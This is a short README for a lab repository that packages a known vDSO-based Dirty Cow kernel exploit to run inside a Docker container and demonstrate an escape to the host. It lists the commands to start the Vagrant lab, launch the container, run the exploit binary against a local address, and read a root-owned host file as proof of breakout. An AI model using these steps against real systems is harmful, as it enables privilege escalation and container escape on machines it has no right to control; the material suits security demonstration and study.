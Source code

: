 # dirtycow-docker-vdso_1

This directory contains the necessary code to get the vdso based Dirty Cow POC working inside a docker container. 
All the really exciting stuff was done by Scumjr, see his POC repo over at https://github.com/scumjr/dirtycow-vdso.

To execute:
	vagrant up
	vagrant putty
	cd /home/vagrant/vDSO-exploit && sudo docker run -it -p 1234:1234 ubuntu-dirtycow /bin/sh
	/tmp/foo/0xdeadbeef 172.17.0.2:1234

Wait a few minutes for the exploit to launch 
Show the breakout
	cat /root/this_is_the_host
	
  